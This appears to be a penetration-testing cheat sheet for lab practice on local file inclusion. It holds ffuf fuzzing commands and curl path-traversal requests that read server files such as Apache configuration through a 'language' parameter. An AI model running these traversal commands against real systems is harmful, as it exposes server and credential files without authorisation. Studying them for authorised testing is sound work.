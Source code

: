 ## Fuzzing Parameters
```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
- Find exposed parameters as these are usually not as secure as public ones

## LFI wordlists:
- https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
- https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters

```
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```


## Fuzzing Server Files
- Server webroot path
- Server configurations file
- Server logs

**Server Webroot
Wordlists:
- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt
- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt

```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```


**Server Logs/Configurations
Wordlists:
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
- https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
- https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows

```
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars
```


## Automated Tools
- https://github.com/D35m0nd142/LFISuite
- https://github.com/OsandaMalith/LFiFreak
- https://github.com/mzfr/liffy
